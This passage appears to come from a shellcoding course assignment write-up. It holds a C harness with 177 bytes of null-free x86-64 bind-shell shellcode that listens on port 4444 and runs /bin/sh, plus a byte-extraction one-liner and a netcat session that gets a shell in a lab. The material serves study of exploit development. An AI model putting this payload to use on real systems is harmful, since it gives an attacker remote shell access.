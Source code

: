 ```term
        add rax, 59
        syscall
```

Let's assemble, link this and get its shellcode!

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1/B$ nasm -f elf64 1.asm -o 1.o && ld 1.o -o 1 && for i in $(objdump -d 1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; 
done;echo
```

C format:

```term
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\xb0\x29\x48\xff\xc7\x48\xff\xc7\x48\xff\xc6\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x50\x48\x31\xed\x66\x6a\x02\x66\x5d\x89\x44\x24\xfc
\x66\xc7\x44\x24\xfa\x11\x5c\x66\x89\x6c\x24\xf8\x48\x83\xec\x08\xb0\x31\x48\x89\xe6\xb2\x10\x0f\x05\x66\x6a\x02\x66\x5d\xb0\x32\x48\x89\xee\x0f\x05\xb0\x2b\x48\x83\xec\x10\x48\
x89\xe6\xc6\x44\x24\xff\x10\x48\x83\xec\x01\x48\x89\xe2\x0f\x05\x49\x89\xc1\xb0\x03\x0f\x05\x4c\x89\xcf\xb0\x21\x48\x31\xf6\x0f\x05\xb0\x21\x66\x6a\x01\x66\x5d\x48\x89\xee\x0f\x
05\xb0\x21\x66\x6a\x02\x66\x5d\x48\x89\xee\x0f\x05\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x0
5"

;

main()
{
 
printf("Shellcode Length:  %d\n", (int)strlen(code));
 
int (*ret)() = (int(*)())code;
 
ret();
 
}
```

#### EndGame

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1/B$ gcc null-free.c -o null-free -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_1/B$ ./null-free 
Shellcode Length:  177
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@whitecr0wz:~# rlwrap nc 192.168.100.205 4444 -v 
192.168.100.205: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.100.205] 4444 (?) open
python3 -c 'import pty;pty.spawn("/bin/bash")'
whitecr0wz@SLAE64:/home/whitecr0wz/assembly/assignments/Assignment_1/B$ id 
id 
uid=1000(whitecr0wz) gid=1000(whitecr0wz) groups=1000(whitecr0wz),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
whitecr0wz@SLAE64:/home/whitecr0wz/assembly/assignments/Assignment_1/B$ 
```
